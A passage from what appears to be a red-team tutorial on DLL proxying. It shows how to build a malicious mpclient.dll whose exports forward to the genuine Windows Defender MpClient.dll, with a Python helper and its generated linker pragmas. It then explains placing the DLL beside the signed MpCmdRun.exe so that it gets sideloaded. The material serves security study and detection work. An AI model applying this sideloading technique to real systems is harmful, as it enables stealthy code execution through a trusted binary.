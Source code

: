 ![image](https://user-images.githubusercontent.com/35749735/195376423-8dd1add9-13d5-47c5-b167-f21cc59bcf5f.png)

The export functions will forward execution to the legitimate DLL, named "**mpclient_orig**" as seen from the output above. To use this, we'll have to rename the original DLL to **mpclient_orig.dll** and _place it in the same folder as the legit EXE and malicious DLL to execute the DLL sideload_.

Now compile your malicious DLL in Visual Studio or using `cl.exe` to the output file named **mpclient.dll**!

#### An alternative method with Python

Another technique to do DLL proxying, which is my preferred method, is to proxy DLL exports to the DLL on disk in its __original location__ (i.e. `C:\windows\system32`). That way you don't need to have the original DLL in the current folder of the executable and malicious DLL. These exports can be created with a similar [script in Python](https://gist.github.com/wsummerhill/ceebd6893b14244ef5a7f9dfd4348f0a)  which points the DLL exports to the full path of the DLL on disk instead of the DLL in the current folder.<br />
For example:
```
python Find-DLL-Exports_DLL-Proxying.py "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2201.10-0\MpClient.dll"
// Export DLL functions
#pragma once
#pragma comment(linker,"/export:MpAddDynamicSignatureFile=C:\\ProgramData\\Microsoft\\Windows Defender\\Platform\\4.18.2201.10-0\\MpClient.MpAddDynamicSignatureFile,@43")
#pragma comment(linker,"/export:MpAllocMemory=C:\\ProgramData\\Microsoft\\Windows Defender\\Platform\\4.18.2201.10-0\\MpClient.MpAllocMemory,@44")
#pragma comment(linker,"/export:MpAmsiCloseSession=C:\\ProgramData\\Microsoft\\Windows Defender\\Platform\\4.18.2201.10-0\\MpClient.MpAmsiCloseSession,@45")
#pragma comment(linker,"/export:MpAmsiNotify=C:\\ProgramData\\Microsoft\\Windows Defender\\Platform\\4.18.2201.10-0\\MpClient.MpAmsiNotify,@46")
#pragma comment(linker,"/export:MpAmsiScan=C:\\ProgramData\\Microsoft\\Windows Defender\\Platform\\4.18.2201.10-0\\MpClient.MpAmsiScan,@47")
#pragma comment(linker,"/export:MpAsrSetHipsUserExclusion=C:\\ProgramData\\Microsoft\\Windows Defender\\Platform\\4.18.2201.10-0\\MpClient.MpAsrSetHipsUserExclusion,@48")
...


```

### Putting it all together

To combine everything together and actually execute our DLL sideload with the PowerShell script with original DLL in the same folder, we need to copy the **original EXE**, **malicious DLL**, and **original DLL** to the same folder. Place the following files to your target folder with these naming conventions: <br />
- MpCmdRun.exe
- mpclient.dll (malicious DLL)
- mpclient_orig.dll (original DLL)

It should look something like this:
![image](https://user-images.githubusercontent.com/35749735/195417269-99e84b29-dc21-41ea-af88-85999bffe7ba.png)
